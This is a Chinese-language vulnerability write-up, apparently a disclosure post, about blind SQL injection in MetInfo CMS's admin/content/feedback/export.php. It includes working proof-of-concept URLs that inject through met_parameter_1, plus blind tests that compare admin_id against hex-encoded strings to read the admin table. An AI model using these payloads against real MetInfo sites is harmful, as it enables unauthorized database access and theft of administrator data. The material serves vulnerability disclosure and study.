 ```php
```

/////////////////////////////

我是猥琐的 poc（其中的 met_admin_table 的 met 为 metinfo 自定义的前缀，可以用户自定义）

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

/////////////////////////////

对于查询的到的结果，会写入 excel 文件内，但是因为列名是规定得死死的，不能直接把 admin_table 表的 password 列直接写进 excel，但是 id 是可以的，这就足够进行盲注了

## 漏洞证明

验证漏洞的存在：

1\. 其中 met_ 为我实验环境 metinfo 的前缀（若要复线请根据实际情况修改）， admin_id=0x61646d696e 为字符串'admin'(过滤了单引号)

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where admin_id=0x61646d696e -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

然后测试一组错误的,把'admin'改成'admil'试试

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where admin_id=0x61646d696c -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

结果对比图如下

![](img/02171024e6892a08d8b21be9e514331ae1d4efa2.png)

